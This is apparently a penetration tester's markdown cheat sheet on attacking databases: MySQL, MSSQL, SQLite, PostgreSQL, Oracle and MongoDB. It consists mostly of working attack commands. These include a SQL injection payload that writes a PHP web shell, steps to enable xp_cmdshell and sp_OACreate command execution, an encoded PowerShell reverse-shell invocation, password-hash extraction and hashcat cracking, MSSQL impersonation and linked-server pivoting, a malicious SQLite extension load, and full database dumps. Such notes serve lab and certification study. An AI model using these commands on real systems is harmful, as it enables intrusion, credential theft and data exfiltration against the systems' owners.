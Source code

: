 ```yaml
---
layout: blank
pagetitle: Database Attacks
---
```


## General Database viewer tools
- Use `dbeaver` on kali, has a nice GUI and everything

## MySQL
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
- Dumping MySQL: `mysqldump -h [host] -u [user] -p[password] --all-databases > mysql_all_dbs.sql`


## MSSQL
- Database management built into Windows
	- `master` database for system-level details, `msdb` database for scheduling alerts/jobs, `model` database acts as blueprint for new mssqlservers, `resource` database for hosting system objects in read-only fashion, `tempdb` database as temporary storage area
	- Users vs. logins
		- Both users and logins are required to perform database operations
		- Users dictate who can access the SQL server instance as a whole (but this doesn't provide any database access)
			- These can be local database users, like `sa`, local Windows users, or Domain users
			- Thus, a valid user without any database logins wouldn't be able to do anything, despite having credentials to access the server
		- Logins provide users access to specific databases within the server
- Controlled via `Invoke-Sqlcmd`
  - `Install-Module -Name SqlServer -Force`
  - `Invoke-Sqlcmd -ServerInstance localhost\{SQL_server_name} -Database {database_like_master} -Query {query}`
- Importing [PowerUPSQL](https://github.com/NetSPI/PowerUpSQL) can give some useful Powershell commands, like `Get-SQLInstanceLocal` to identify local mssql servers
  - Cheatsheet: [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
  - `Get-SQLServerPasswordHash` gets SQL server login passwords
  - Inspecting linked servers: `Get-SQLServerLink` 
    	- With auth: `-Username {mssql_username} -Password {mssql_password}  -Instance {server_name} -Verbose`
- Kali has `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {database_username}:{password}@{host IP}`
		- `-windows-auth` allows us to authenticate with windows credentials; `-k` to use `.ccache` kerberos auth 
	- **Command Execution**
		- Can use `enable_xp_cmdshell` and `xp_cmdshell {command}` to execute commands on the underlying server
		- Can also use the blind `sp_start_job {command}` to execute commands, or the `sp_OACreate` method described below
		- Turn this execution into a reverse shell with the python reverse shell generator in Miscellaneous notes
			- `xp_cmdshell "powershell -exec bypass -enc {b64_payload}"`
	- **Password Hashes**
		- Get local database password hashes with `select name,password_hash from sys.sql_logins`
			- Ignore `##MS##` hashes, since they're usually disabled (can be checked in `sys.sql_logins`) and the passwords are random
		- Can be cracked with hashcat, but they need to be reorganized
			- Stored in `b'0200 + 4-byte salt + 64-byte SHA512 hash'` structure, and we need it in `0x{hex}` format, so just remove byte string indicators and add `0x` at the front
			- Then crack with `hashcat -m 1731`
	- **Impersonation**
		- We can use `enum_impersonate` to see who our current user can impersonate (`grantor` category)
			- We can enumerate both users and logins with `exec_as_user {user}` or `exec_as_login {login}` on their own, which will drop us into a shell as that user/in that database
				- If the authorized user or login is a domain user, we can pass the domain with `exec_as_{user/login} {domain}\{user}`
			- From this point, we should run `enum_impersonate` again to see if our new user can impersonate anyone
		- Our target would be to impersonate either the `sa` user, an equivalently-privileged user, or a `dbo` login of the `system` database
			- The `dbo` login stands for Database Owner and gives full control over that database
	- **Linked servers**
		- After enumerating all accessible users, we can enumerate linked mssql servers with `enum_links`
		- This will show us what linked servers our current user can use
			- This will show which users have remote login permissions
				- If local login `NULL` has a remote login, we can just execute queries without auth
				- What will be more likely is a user that has impersonation rights with a remote login on another server
					- Thus, we can log in as that user to the mssql server, run `use_link {server_name}`, and then interact with the database normally
					- The `sa` user won't show any explicit links, since they're able to impersonate any user with a link
						- Thus, if there's a user with access to a linked database, we can simply impersonate them using `sa`
			- Running `enum_links` as `sa` (or equivalent) will show all user links, allowing different chains
		- Can run basic queries as authorized users with `SELECT * FROM OPENQUERY( {linked_server_name}, '{query}')`
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema
- Enabling `xp_cmdshell`:
	- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
		- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; `
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
		- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
- Can also use `sp_OACreate` to execute system commands:
	- `sp_configure 'show advanced options', 1;`
	- `RECONFIGURE;` 
	- `sp_configure 'Ole Automation Procedures', 1;`
	- `RECONFIGURE;`
	- `DECLARE @shell INT; EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c {command}';`
- Dumping MSSQL (table names): `Invoke-Sqlcmd -ServerInstance [server] -Username [user] -Password [password] -Query "SELECT name FROM master.sys.databases" | Format-Table -AutoSize > mssql_dbs.txt`

## SQLite
- Use `sqlitebrowser` for viewing sqlite databases
- Can't execute functions, but can load malicious files
	- `SELECT load_extension('/tmp/malicious.so');`
- `SQLite CLI` allows command execution with `.shell {command}` or `.system {command}`
- Outdated versions may have RCE CVEs

## PostgreSQL
- Use `psql` for to connect to PostgreSQL databases
- Command execution with `COPY mytable TO PROGRAM 'whoami';`
	- Requires superuser
- Command execution with `SELECT pg_execute_server_program('id');`
	- This won't require superuser, but will require `pg_execute_server_program`
- Dumping PostgreSQL: `pg_dump -h [host] -U [username] -F c -b -v -f postgresql_all.dump postgres`

## Oracle
- Comand execution with `EXEC dbms_java.runjava('java.lang.Runtime.getRuntime().exec("{command}")');`
- Dumping Oracle: `sqlplus [username]/[password]@[host]/[SID] @extract.sql > oracle_data.txt`

## MongoDB
- Dumping MongoDB: `mongodump --host [host] --port [port] --username [user] --password [password] --out ./mongodb_dump`
